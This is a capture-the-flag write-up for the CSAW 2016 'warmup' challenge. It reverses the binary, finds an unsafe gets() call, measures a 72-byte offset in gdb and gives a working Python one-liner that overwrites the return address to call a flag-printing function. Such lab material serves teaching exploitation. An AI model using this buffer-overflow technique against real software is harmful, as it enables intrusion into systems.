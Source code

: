 So when we drop the x64 bit elf into IDA and reverse the main function, we get the following code:
```
  char char0; // [sp+0h] [bp-80h]@1
  char target_char; // [sp+40h] [bp-40h]@1

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(&char0, "%p\n", 4195853LL);
  write(1, &char0, 9uLL);
  write(1, ">", 1uLL);
  return gets(&target_char, 4196181LL);
```

As we can see, essentially prints out the `char0` pointer, then uses a gets call to `target_char` which we should be able to exploit. We can also see a different functionc alled `easy` which will be of importance to us, and when we reverse the assembly code we get this:

```
int easy()
{
  return system("cat flag.txt");
}
```

So we can see that the easy function prints the flag. Let's take a look to see what binary hardening measures are in place:

```
$	checksec warmup 
[*] '/Hackery/ctf/csaw/warmup/warmup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So we can see that it only has partial RELRO so there shouldn't be anything stopping a buffer overflow. So we should be able to use the insecure `gets` call in the main function to run the `easy` function, which should print the flag. Let's switch over to gdb to figure out how to do it.

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:	push   rbp
   0x000000000040061e <+1>:	mov    rbp,rsp
   0x0000000000400621 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:	mov    edx,0xa
   0x000000000040062a <+13>:	mov    esi,0x400741
   0x000000000040062f <+18>:	mov    edi,0x1
   0x0000000000400634 <+23>:	call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:	mov    edx,0x4
   0x000000000040063e <+33>:	mov    esi,0x40074c
   0x0000000000400643 <+38>:	mov    edi,0x1
   0x0000000000400648 <+43>:	call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:	lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:	mov    edx,0x40060d
   0x0000000000400656 <+57>:	mov    esi,0x400751
   0x000000000040065b <+62>:	mov    rdi,rax
   0x000000000040065e <+65>:	mov    eax,0x0
   0x0000000000400663 <+70>:	call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:	lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:	mov    edx,0x9
   0x0000000000400671 <+84>:	mov    rsi,rax
   0x0000000000400674 <+87>:	mov    edi,0x1
   0x0000000000400679 <+92>:	call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:	mov    edx,0x1
   0x0000000000400683 <+102>:	mov    esi,0x400755
   0x0000000000400688 <+107>:	mov    edi,0x1
   0x000000000040068d <+112>:	call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:	lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:	mov    rdi,rax
   0x0000000000400699 <+124>:	mov    eax,0x0
   0x000000000040069e <+129>:	call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:	leave  
   0x00000000004006a4 <+135>:	ret    
End of assembler dump.
gdb-peda$ b *main+129
Breakpoint 1 at 0x40069e
gdb-peda$ r
Starting program: /Hackery/ctf/csaw/warmup/warmup 
-Warm Up-
WOW:0x40060d
```

And when we hit the breakpoint:

```
Breakpoint 1, 0x000000000040069e in main ()
gdb-peda$ x/x $rbp-0x40
0x7fffffffddd0:	0x0000000000000001
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde20:
 rip = 0x40069e in main; saved rip = 0x7ffff7a2e830
 called by frame at 0x7fffffffdee0
 Arglist at 0x7fffffffde10, args: 
 Locals at 0x7fffffffde10, Previous frame's sp is 0x7fffffffde20
 Saved registers:
  rbp at 0x7fffffffde10, rip at 0x7fffffffde18
```

Using python let's calculate the difference between the location of the start of our input (`rbp-0x40`) and the `rip` register:
```
>>> 0x7fffffffde18 - 0x7fffffffddd0
72
```

So we can see that we should only need to input 72 characters before we reach the `rip` register. Let's see what the address of the `easy` function is, so we can push it onto the `rip` register.

```
gdb-peda$ p easy
$1 = {<text variable, no debug info>} 0x40060d <easy>
```

So we can see that the function we need to jump to is at 0x40060d. We can write a python one liner to execute thee exploit.

```
python -c 'print "0"*72 + "\x0d\x06\x40\x00\x00\x00\x00\x00"' | ./warmup 
-Warm Up-
WOW:0x40060d
>FLAG{LET_US_BEGIN_CSAW2016}
Segmentation fault (core dumped)
```

Just like that, we got the flag.